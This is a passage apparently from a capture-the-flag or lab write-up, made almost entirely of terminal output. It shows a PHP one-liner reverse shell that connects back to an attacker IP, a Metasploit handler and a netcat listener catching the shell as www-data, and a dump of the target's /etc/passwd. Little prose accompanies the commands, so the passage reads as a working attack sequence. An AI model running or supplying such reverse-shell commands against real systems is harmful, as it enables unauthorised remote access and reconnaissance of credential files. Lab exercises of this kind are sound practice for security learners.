 ```
php -r '$sock=fsockopen("10.18.72.222",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.18.72.222:4433 
[*] Command shell session 4 opened (10.18.72.222:4433 -> 10.10.40.155:49900) at 2023-08-03 04:12:17 -0400


id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
whoami
www-data
php -r '$sock=fsockopen("10.18.72.222",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

```
┌──(root㉿kali)-[~]
└─# nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.18.72.222] from (UNKNOWN) [10.10.40.155] 50532
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ whoami
www-data
```

```
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
vagrant:x:1000:1000:,,,:/home/vagrant:/bin/bash
ftp:x:112:118:ftp daemon,,,:/srv/ftp:/bin/false
lennie:x:1002:1002::/home/lennie:
```